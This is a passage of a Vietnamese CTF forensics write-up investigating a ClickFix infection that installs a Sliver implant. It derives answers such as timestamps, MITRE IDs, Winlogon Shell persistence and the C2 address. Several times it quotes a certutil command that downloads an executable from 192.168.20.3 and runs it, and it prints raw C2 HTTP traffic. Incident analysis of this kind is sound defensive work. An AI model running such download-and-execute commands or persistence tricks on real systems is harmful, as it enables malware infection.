# fixfixfix minictf ptithcm
đây là 1 challenge nữa của author nh0kt1g3r12 và cũng là 1 trong 2 challenge ngoài jotdown đã đánh bại mình. Cuối cùng sau vài tháng mình đã quay lại và phục thù được nó.

đầu tiên đề bài cho ta biết rằng 

* A client reported system issues after encountering an online verification page during normal web browsing. Following interaction with this interface, their workstation showed signs of compromise.
* We detected suspicious activities including unusual process executions, external network connections, and system configuration changes. Evidence suggests malware installation with persistence mechanisms and credential harvesting capabilities.
và trong này có bộ 14 câu hỏi nhằm giải quyết challenge này


The device is isolated. Please investigate:

q1: What initial access technique was used to lure the user to deploy the malware?

a1cfdb54a31f6cb8ca9ed38b0e3dc333

q2: What is the exact date and time of initial compromise?

605524c3d3dbd506ed6e21068a4a63da

q3: What is the MITRE ATT&CK ID of the 1st stage downloader?

d8f146906d0db41f9421c66c951b05c3

q4: When was the malware first executed on the system?

549c9294743d8abde46cd8cfcc6a7f23

q5: What is the malware family?

a436e38305c86d947f1b448d305dbb0e

q6: When was the malware first found in the wild?

10bbaae4118b6e48667f375f5e176b75

q7: What is the full path of persistence?

149bf0ee2b2d69f9ee9be6e1e01d674c

q8: What is the MITRE ATT&CK ID of the persistence technique?

ae363f3f2f66f164e9ffd098840903d0

q9: What IP address and port was used for C2 communications?

4ad77bb0f534bec73919f6502c286512

q10: When was the first C2 command executed?

75c75bf212b99d74152eae691be36662

q11: How many different commands did the attacker execute?

eccbc87e4b5ce2fe28308fd9f2a7baf3

q12: What is the full command used to download and exfiltrate user credentials?

0855d612a2426e825f845615cb8daf8e

q13: Where did the attacker exfiltrate browser credentials to?

c915683f3ec888b8edcc7b06bd1428ec

q14: What are the exfiltrated credentials? (username:password)

7e6c5eea44d8749e3d99d4abdeeddc31

Submit your flag as:

PIS{q1_q2_q3_q4_q5_q6_q7_q8_q9_q10_q11_q12_q13_q14}


Sincerely,

nh0kt1g3r12

P/s: The above questions are followed by the MD5 sums of their answers.

Timestamp format: YYYY-MM-DD HH:MM:SS

Timezone: UTC


một máy tính đã report lại vấn đề sau khi truy cập vào một trang web cần xác minh gì đó, đây rất có thể là một kiểu dạng bài về captcha mình đã từng làm.
mình có thử check qua những cái như log powershell và ssh tuy nhiên không thu được gì, thế là mình nghĩ ngay tới preftech vì đây là nơi lưu những exe nào đã chạy ta check thì thấy 2 cái run

ở đây ta sẽ vào window rgistry của user để xem thử có những cách mà user có thể chạy qua terminal, powershell, double click file hoặc mở window + R rồi paste lệnh
ta sẽ kiểm tra window + R bởi vì đây là hint đề cho 

check trên win registry thì phát hiện ra được



`cmd.exe /c certutil -urlcache -split -f "http://192.168.20.3/cailonmemay.exe" "%TEMP%\svhost.exe" && "%TEMP%\svhost.exe" && timeout 3\1`

vậy thì khả năng ở câu một này với câu hỏi là 
# q1: What initial access technique was used to lure the user to deploy the malware?
có nghĩa là cách nào để lừa nạn nhân cài malware
thì khả năng là nó rơi vào phương pháp ClickFix

# q2 What is the exact date and time of initial compromise?
trong tấm hình cũng có sẵn ngày rồi bây giờ ta đổi ra định dạng như format là được

Timestamp format: YYYY-MM-DD HH:MM:SS

Timezone: UTC

-> đáp án là 2025-11-09 01:02:22



# q3 What is the MITRE ATT&CK ID of the 1st stage downloader?
ta thấy rằng trong đây lệnh đang dùng là 
`certutil -urlcache -split -f "http://192.168.20.3/cailonmemay.exe" "%TEMP%\svhost.exe" `
nghĩa là ta dùng certutil để dowload từ url mà đề đưa vậy ta sẽ search google để tìm đáp án cho câu số 3


ở đây đúng như dowload file từ url kết quả sẽ là T1105


# q4: When was the malware first executed on the system?
ở trong lệnh được thực thi
```
cmd.exe /c certutil -urlcache -split -f "http://192.168.20.3/cailonmemay.exe" "%TEMP%\svhost.exe" && "%TEMP%\svhost.exe"
```
nghĩa là sau khi tải file về nó sẽ tự động chạy luôn và sinh ra 1 tiến trình svhost, ta sẽ dùng công cụ winpreftechview để xem

ở đây ta thấy last run time là 11/9/2025 08:02:29 AM có nghĩa là thời điểm nó hoạt động lần cuối 1 thời điểm khá gần sau khi tải cailonmamay.exe ta đổi qua giờ utc là sẽ có đáp án
->2025-11-09 01:02:29


# q5: What is the malware family?

ta sẽ dùng pcap để bắt cái malware này 

dùng detect it easy thì phát hiện nó là file được viết bởi ngôn ngữ go

sau đó mình thử đưa file này lên virustotal thì phát hiện ngay family của nó là Sliver



# q6: When was the malware first found in the wild?
ta xem phần detail của virustotal

nó có để First Submission vậy nên đáp án đúng là 2025-11-08 08:41:54 đây chính là lần đầu malware được tìm thấy bên ngoài trên virustotal


# q7: What is the full path of persistence?
mình có thử check nhiều cái về run hay startup để xem có gì có thể chứa persistence không nhưng không tìm được gì, sau đó mình quyết định qua shell để kiểm tra, ở đây mình thấy được 1 cái khá kì lạ đó là chỉ có shell nó mới có value slack

vậy có nghĩa là đã có ai đó tác động và đổi lại thành explorer.exe chứ giá trị trước đó thì ko phải
ta chuyển qua slack viewer thì thấy được lệnh tải malware vừa gặp điều này chứng tỏ rằng attacker đã thiết lập lệnh này để mỗi khi explorer.exe chạy là tự động tải cái malware này về.

và vì mình đang check registry của user nh0kt1g3r12 vậy nên nó sẽ là HKCU hay HKEY_CURRENT_USER và kèm thêm cái đường dẫn tới shell này
-> HKCU\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\Shell 


# q8: What is the MITRE ATT&CK ID of the persistence technique?
ta tìm kiếm theo những gì đã biết từ câu 7


ok vậy đáp án là T1547.004

# q9: What IP address and port was used for C2 communications?


ta thấy được ngoài ip mà hacker đã dùng để tải file mã độc thì còn có 1 port khác là 8888 chứa nhiều thông tin về các website như admin, login,... nên rất có thể đây là port mà ta cần tìm
->đáp án là 192.168.20.3:8888


# q10: When was the first C2 command executed?
đoạn này ta cần hiểu cơ chế của con sliver trước, sliver là 1 loại chuyên về quản lý và thực thi lệnh từ xa(command and control aka C2) ở đây khi user cài cailonmemay.exe thì nó đã tiến hành gửi những lệnh ra ngoài nhằm tương tác với máy của attacker để nhận lệnh rồi gửi trả kết quả
mình filter theo ip và port của attacker trước đó sau đó follow stream
```
GET /bundles/javascript/scripts/bundles/bundles/bundle/jquery.js?x=20591x323 HTTP/1.1
Host: 192.168.20.3:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.6131.287 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
Cookie: SSID=334d047e334406cbb45100a07cbad47d
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip


HTTP/1.1 200 OK
Date: Sun, 09 Nov 2025 01:03:50 GMT
Content-Length: 339
Content-Type: application/x-gzip

...........7....=.....P....	..6.....yE......g...xI<0cu..+z$....s.e.Kpwj0...Mi...!......M.?....H.........&...fx.d..Pxh.c..-x....#.m
+.a4r
.....s...H.)r.E........R	.p.` .G\G..u.hX..A{...16..J.....|\*.j...0!q... ..KR.r...	......;..s<.1Z..g.....p.+....@	.........P'....P.(.>.1
.z.)i...+.*7...Xy.....
_...,..S.......a..M.
|^...f2.K.........7...
GET /assets/assets/scripts/jscript/js/bundles/jquery.min.js?w=62888572 HTTP/1.1
Host: 192.168.20.3:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.6131.287 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
Cookie: SSID=334d047e334406cbb45100a07cbad47d
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip


HTTP/1.1 204 No Content
Date: Sun, 09 Nov 2025 01:03:51 GMT


GET /jscript/jquery.js?c=674201xf17 HTTP/1.1
Host: 192.168.20.3:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.6131.287 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
Cookie: SSID=334d047e334406cbb45100a07cbad47d
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip


HTTP/1.1 204 No Content
Date: Sun, 09 Nov 2025 01:03:52 GMT


GET /umd/bundle/js/umd/assets/jquery.min.js?q=65606922 HTTP/1.1
Host: 192.168.20.3:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.6131.287 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
Cookie: SSID=334d047e334406cbb45100a07cbad47d
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip


HTTP/1.1 204 No Content
Date: Sun, 09 Nov 2025 01:03:55 GMT


GET /jquery.min.js?g=o2m9051992 HTTP/1.1
Host: 192.168.20.3:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.6131.287 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
Cookie: SSID=334d047e334406cbb45100a07cbad47d
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip


HTTP/1.1 204 No Content
Date: Sun, 09 Nov 2025 01:03:57 GMT


GET /jquery.min.js?m=545718t0 HTTP/1.1
Host: 192.168.20.3:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.6131.287 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
Cookie: SSID=334d047e334406cbb45100a07cbad47d
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip


HTTP/1.1 200 OK
Date: Sun, 09 Nov 2025 01:03:58 GMT
Content-Length: 233
Content-Type: application/x-gzip

.............2.3.......U..l..H6C..2.f.k.C....X
7E..:..j...l....RV....c.
c....T.TFB.B....!..oA.4.	.....]......Ub.vg ...k....3..(..	.{d..b|...K...V..R.....Pl.s./9...1;K.'D.*L9....'..:.'(.PN..7..7*.9...:..^..Z......Q....'.N.......	/....
```
ở đây ta có thể thấy các chuỗi được lặp ngẫu nhiên bundles, assets, jscript, jquery cái này khá bất thường so với 1 web bình thưởng có thể thấy
với web bth nó sẽ là
